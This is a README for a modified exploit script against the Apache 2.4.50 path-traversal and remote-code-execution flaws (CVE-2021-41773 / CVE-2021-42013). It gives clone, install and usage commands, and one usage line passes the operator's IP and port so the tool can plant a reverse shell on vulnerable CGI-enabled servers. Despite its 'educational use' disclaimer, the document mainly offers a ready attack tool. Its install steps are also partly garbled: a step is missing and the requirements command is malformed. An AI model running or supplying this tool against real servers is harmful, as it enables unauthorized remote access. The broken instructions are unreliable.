

# Apache-HTTP-Server-2.4.50-RCE

This tool is designed to test Apache servers for the CVE-2021-41773 / CVE-2021-42013 vulnerability. It is intended for educational purposes only and should be used responsibly on systems you have explicit permission to test.

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Zyx2440/Apache-HTTP-Server-2.4.50-RCE.git
2. Go to the dir:
   ```bash
   cd Apache-HTTP-Server-2.4.50-RCE
4. install The Requirements:
   ```bash
   pip3 install -r Create add_requirements.txt

5. usage: 
   ```bash
   python3 50512.py target.txt -ip <YourIp> -p <ThePort>
   the text file should contain the url of the target



Example:
### Remote Code Execution
```
python3 50512.py target.txt -ip 10.0.2.15 -p 4444
```


   
### What the Script Does ???

Apache Version Check: For each URL in the provided file, it checks whether the server is running Apache version 2.4.50.

### Exploit Testing:
If the server is vulnerable: It attempts to exploit the server by sending payloads to either trigger directory traversal attacks or execute code remotely.
If CGI is enabled: It tries to inject a reverse shell payload to gain remote access.

# Warning:
For Educational Use Only: The script is intended for educational purposes to demonstrate how vulnerabilities can be tested and exploited. Using this script against unauthorized targets is illegal and unethical.

### additionally info:
#### Original Author: calfcrusher@inventati.org
#### Modified by: Zyx2440
Purpose of modification: Added additional error handling and optimized the payload logic adn RCE and remove cve 
